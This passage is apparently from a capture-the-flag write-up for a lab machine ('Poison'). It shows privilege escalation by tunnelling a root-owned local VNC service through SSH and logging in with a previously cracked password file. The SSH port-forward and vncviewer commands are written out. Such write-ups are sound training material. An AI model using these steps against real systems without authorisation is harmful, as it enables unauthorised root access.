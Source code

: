 ```
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

`5801` is a common Xvnc port, meaning it should be the root Xvnc we found earlier. We have a few options to expose this for our  own access with the secret file we found earlier.

### Breaking into VNC

[port fowarding refresher](https://www.ssh.com/academy/ssh/tunneling/example)

* Known information
  * Locally running Xvnc as root
  * secret.zip gave us a secret for something

There are a few hurdles here, first port forwarding. We have a few options, but since binaries wont work to boot (such as chisel), we can simply use ssh.
```
ssh -L 4444:127.0.0.1:5901 charix@10.10.10.84
       ^ local port   ^ remote port
```

Using a bind command with `-L`, we can effectively make our local hosts port `4444` become poisons locally interfaced `5901`.
Once we have forwarded the port, we can access VNC on `127.0.0.1:4444`
```
vncviewer 127.0.0.1:4444
```
Fails! The questions of root credentials come into play. Maby there is an option for that secret file we cracked earlier? `-passwd` looks promising
```
$ vncviewer --help                          
TightVNC Viewer version 1.3.10

Usage: vncviewer [<OPTIONS>] [<HOST>][:<DISPLAY#>]
       vncviewer [<OPTIONS>] [<HOST>][::<PORT#>]
       vncviewer [<OPTIONS>] -listen [<DISPLAY#>]
       vncviewer -help

<OPTIONS> are standard Xt options, or:
        -via <GATEWAY>
        -shared (set by default)
        -noshared
        -viewonly
        -fullscreen
        -noraiseonbeep
        -passwd <PASSWD-FILENAME> (standard VNC authentication)
        -encodings <ENCODING-LIST> (e.g. "tight copyrect")
        -bgr233
        -owncmap
        -truecolour
        -depth <DEPTH>
        -compresslevel <COMPRESS-VALUE> (0..9: 0-fast, 9-best)
        -quality <JPEG-QUALITY-VALUE> (0..9: 0-low, 9-high)
        -nojpeg
        -nocursorshape
        -x11cursor
        -autopass

Option names may be abbreviated, e.g. -bgr instead of -bgr233.
See the manual page for more information.
```
Sure enough, we can gain access to root with the following command
```
vncviewer 127.0.0.1:4444 -passwd secret
```
